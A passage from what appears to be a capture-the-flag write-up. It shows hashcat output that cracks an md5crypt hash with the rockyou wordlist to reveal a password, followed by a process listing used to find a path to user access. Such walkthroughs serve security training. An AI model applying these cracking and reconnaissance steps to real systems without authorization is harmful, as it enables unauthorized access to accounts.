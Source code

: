 ```text
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0:iamthebest    

Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
Hash.Target......: $1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
Time.Started.....: Sat Mar 27 20:11:46 2021 (0 secs)
Time.Estimated...: Sat Mar 27 20:11:46 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    30002 H/s (7.20ms) @ Accel:256 Loops:250 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 3074/14344385 (0.02%)
Rejected.........: 2/3074 (0.07%)
Restore.Point....: 2048/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:750-1000
Candidates.#1....: slimshady -> ANTHONY

Started: Sat Mar 27 20:11:43 2021
Stopped: Sat Mar 27 20:11:48 2021
```

It cracked within seconds to reveal the password `iamthebest`.

## Road to User

```text
$ ps -auxw
USER         PID %CPU %MEM    VSZ   RSS TTY   STAT STARTED    TIME COMMAND
nginx         79  2.5  0.1  33696  3308 ?     S    10:22AM 2:20.96 nginx: worker process 
root           0  0.0  0.2      0 13288 ?     OKl  10:21AM 0:22.40 [system]
root           1  0.0  0.0  19852  1528 ?     Is   10:21AM 0:00.01 init 
root         164  0.0  0.0  32528  2296 ?     Ss   10:21AM 0:00.18 /usr/sbin/syslogd -s 
root         267  0.0  0.1 117960  7340 ?     Il   10:21AM 0:38.76 /usr/pkg/bin/vmtoolsd 
root         308  0.0  0.0  19708  1336 ?     Is   10:21AM 0:00.00 /usr/sbin/powerd 
_httpd       336  0.0  0.3 119028 17052 ?     Ss   10:22AM 7:38.21 /usr/pkg/bin/python3.8 /usr/pkg/bin/supervisord-3.8 
root         347  0.0  0.0  73104  2916 ?     Is   10:22AM 0:00.04 /usr/sbin/sshd 
root         366  0.0  0.0  33368  1824 ?     Is   10:22AM 0:00.00 nginx: master process /usr/pkg/sbin/nginx 
r.michaels   378  0.0  0.0  34996  1996 ?     Is   10:22AM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /hom
_httpd       394  0.0  0.0  35160  2004 ?     Ss   10:22AM 0:40.21 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr
root         396  0.0  0.0  20216  1652 ?     Is   10:22AM 0:00.15 /usr/sbin/cron 
_httpd       408  0.0  0.0  19988  1652 ?     S    10:22AM 0:00.22 /bin/sh /usr/local/scripts/memory.sh 
```